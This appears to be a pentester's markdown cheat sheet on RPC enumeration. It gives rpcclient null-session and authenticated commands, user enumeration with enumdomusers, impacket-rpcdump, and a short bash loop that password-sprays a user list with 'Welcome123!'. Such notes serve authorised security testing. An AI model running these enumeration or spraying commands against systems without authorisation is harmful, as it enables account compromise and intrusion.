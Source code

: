 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Null user enumeration
```bash - kali
rpcclient -U "" -N $TARGET
```

```bash - kali
rpcclient -p 135 -U "" $TARGET
```

#### rpcclient

```bash - kali
rpcclient -U johana $TARGET
```

```bash - kali
help
```

![[Pasted image 20220105214013.png]]

```bash - kali
enumdomusers
```

#### rpcclient.sh
```bash - kali
for u in $(cat users | awk -F@ '{print $1}' | awk -F: '{print $2}');
do 
	rpcclient -U "$u%Welcome123!" -c "getusername;quit" $TARGET | grep Authority;
done
```

```bash - kali
impacket-rpcdump $DOMAIN/$USER:$PASSWORD@$TARGET
```


